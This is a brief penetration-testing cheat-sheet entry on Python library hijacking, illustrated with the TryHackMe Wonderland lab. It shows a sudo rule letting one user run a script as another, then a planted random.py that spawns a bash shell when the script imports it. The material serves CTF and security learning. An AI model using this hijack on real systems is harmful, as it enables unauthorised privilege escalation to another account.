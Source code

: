 #### Libraries hijacking
If there is a script using certain library without full path, you can hijack and impersonate commands as the user executing the script:

```python
alice@wonderland:/root$ sudo -l
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

In this case the random library can be hijacked:
```python
--------------------- Code being executed -------------------------------
import random
poem = """The sun was shining on the sea,
Shining with all his might"""
```
The prior library is not using full path to being called so we can create a file called random.py as python will first look onto the same folder instead of the PATH variable environment:
```python
--------------------------- random.py ---------------------------------
import pty

pty.spawn("/bin/bash")
```
Examples: 
[THM Wonderland](https://tryhackme.com/room/wonderland)

